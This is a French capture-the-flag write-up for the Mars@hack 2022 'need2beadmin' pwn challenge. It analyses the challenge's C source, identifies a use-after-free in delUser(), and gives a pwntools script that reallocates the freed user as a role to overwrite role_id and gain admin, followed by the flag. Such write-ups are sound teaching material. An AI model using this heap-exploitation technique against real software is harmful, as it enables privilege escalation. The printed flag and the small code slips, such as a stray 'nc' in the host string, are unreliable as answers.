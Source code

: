 # Writeup for the challenge  **_`need2beadmin`_**  from Mars@hack 2022

- ## Challenge Information:

| - | - |
| ----------- | ----------- |
| Name: | **`need2beadmin`** |
| Category: | **`pwn`** |


- ## Découverte du challenge

En lançant le programme, on se retrouve avec une interface contenant:

- une liste de commandes

- une ligne qui contient notre nom d'utilisateur et notre rôle

![challenge](https://raw.githubusercontent.com/2600-CTF/Write-Up/master/CTF/Mars%40hack%202022/pwn/img/1.png)

En rentrant un chiffre correspondant à la commande, une fonction sera lancée.


- ## Analyse du code source

### Affichage du flag
Le flag s'affiche lorsque l'on passe par la fonction `switchAdmin()`, cette fonction est associé à la commande 
**`[7] Passer en mode Rouge`**.

2 vérifications sont faites pour obtenir le flag:
```c
if (!isAdmin(currentUser) | strcmp(currentUser->name, "Reine rouge") != 0) {
    printf("\nSeule la 'Reine rouge' peut accéder à cette interface.\n\n");
    
    //fflush(stdout);
    return;
  }
``` 
L'utilisateur actuel doit être `admin` et le nom de l'utilisateur doit être `Reine Rouge`, il faut donc être l'utilisateur numéro 1 pour avoir accès à cette interface.
```c
users[0] = newUser("Reine rouge", 1, 1); //struct User *newUser(char *name, unsigned int roleId, unsigned short privilege)
```

On se rend vite compte qu'on ne pourra pas récupérer cet utilisateur avec une utilisation normal du programme pour 2 raisons:
1. Il n'est pas possible de choisir le rôle `admin` en créant un utilisateur à moins d'être déjà `admin`
```c 
if (isAdmin(currentUser)) {
    user->role_id = roleId;
  } else if (strcmp(nameRoleNext, "Admin") != 0) {
    user->role_id = roleId;
  } else {
    printf("Tu dois être admin pour définir ce rôle.\n");
    //fflush(stdout);
    exit(-9);
}
```
2. Il n'est pas possible de créer un utilisateur avec le même nom qu'un utilisateur existant, impossible alors d'obtenir un 2ème utilisateur **`Reine rouge`**
```c
if (userExist(name)) {
    printf("L'utilisateur existe déjà.\n");
    //fflush(stdout);
    exit(-7);
}
```

-----

### Changement de rôle

Une autre fonction semble cependant pouvoir être utilisée: `switchUser()`
```c
void switchUser(char *userName) {
  if (!isAdmin(currentUser)) {
    printf("Seul les utilisateurs ayant le rôle 'Admin' peuvent accéder à cette fonctionnalité.\n");
    //fflush(stdout);
    return;
  }

  if (!userExist(userName)) {
    printf("L'utilisateur n'existe pas.\n");
    //fflush(stdout);
    return;
  }

  currentUser=getUser(userName);
}
```
---

Elle permet de choisir n'importe quel utilisateur à condition d'avoir le rôle `admin`, gardons cela en tête et continuons notre analyse.

### Detection de la vulnérabilité

2 structures sont définies:  `Role` et `User` 
```c
struct Role {
  unsigned int id;
  char name[8];
  char alias[8];
};

struct User {
  char name[16];
  unsigned int role_id;
};
```
Leur taille en mémoire est identique: 16 `char` et un `unsigned int` soit 16 * 1 + 1 * 4 = 20 octet par structure

Ce genre de structures, ainsi qu'un programme offrant une liste de choix, se retrouvent souvent utilisés dans les challenges consistant à manipuler la heap avec un **`use-after-free`** ou un **`double free`**.

Pour confirmer cette théorie, on regarde les fonctions associées aux commandes "Supprimer un utilisateur" et "Supprimer un role" pour voir comment `free()` est utilisé.

```c 
void delUser() {
  char name[memberSize(struct User, name)];

  memcpy(name, currentUser->name, sizeof(name));

  if (numberOfUsers <= MIN_USERS) {
    printf("Besoin d'un minimum de %i utilisateurs.\n", MIN_USERS);
    //fflush(stdout);
    exit(-5);
  }

  free(currentUser);
  users[numberOfUsers-1] = NULL;
  printf("Utilisateur '%s' supprimé\n\n", name);
  //fflush(stdout);

  numberOfUsers--;
}
```

Bingo, dans les fonction `delUser()` on peut voir que le pointeur `currentUser` n'est pas remit à **`NULL`** après le `free()`;

Le **`use-after-free`** se confirme: Si l'on arrive à avoir à attribuer a même adresse mémoire à l'utilisateur actuel puis à un rôle on pourra réécrire la variable `role_id` de la structure `User` et lui donner la valeur 1 afin d'obtenir un profil administrateur.

- ## Analyse du code source

Notre exploit sera le suivant:

```python
from pwn import *

#n'ayant
challenge = remote("nc game1.marshack.fr", 31003)

# Création d'un utilisateur
challenge.sendline(b"3")

# Nom de l'utilisateur
challenge.sendline(b"test_user")
# Rôle de l'utilisateur
challenge.sendline(b"2")

# Destruction de l'utilisateur
challenge.sendline(b"5")

# Création du rôle
challenge.sendline(b"4")

# Remplissage des 8 1ers bytes
challenge.sendline(b"A"*8)
# Overwrite de l'id de l'utilisateur
challenge.sendline(b"A"*4 + b"\x01\x00\x00\x00")

challenge.interactive()
```

Pour représenter ce qu'il se passe (en prenant une adresse memoire théorique de `0x00000000`):

1. Création de l'utilisateur à l'adresse `0x00000000`
 ```mermaid
graph LR
F((currentUser)) --> A[0x00000000]
A --> C[0x00000000: name] --> E[''test_user'']
A --> D[0x00000010: id] --> B[2]
```
2. `free(currentUser)`: l'adresse `0x00000000` redevient disponible pour un malloc
3. Création du rôle sur l'adresse `0x00000000`: Les valeurs de currentUser sont overwrite
 ```mermaid
graph LR
F((rôle)) --> A[0x00000000]
A --> C[0x00000000: id] --> E[4]
A --> Z[0x00000004: name] --> G[''AAAAAAAA'']
A --> D[0x0000000C: alias] --> B[''AAAA\x01\x00\x00\x00'']
```
4. Valeurs de `currentUser` après la création du rôle
 ```mermaid
graph LR
F((currentUser)) --> A[0x00000000]
A --> C[0x00000000: name] --> E[''\x04\x00\x00\x00AAAAAAAAAAAA'']
A --> D[0x00000010: id] --> B[1]
```
---

On se retrouve alors avec un utilisateur sans nom mais possédant le rôle `admin`

![challenge](https://raw.githubusercontent.com/2600-CTF/Write-Up/master/CTF/Mars%40hack%202022/pwn/img/exploit.png)

Il suffit ensuite de changer d'utilisateur pour récupérer le profil **`Reine rouge`**

![challenge](https://raw.githubusercontent.com/2600-CTF/Write-Up/master/CTF/Mars%40hack%202022/pwn/img/flagged.png)

Flag : **`fl@g{NeMeDebranchezPas!OuVousMourrerezTous}`**l
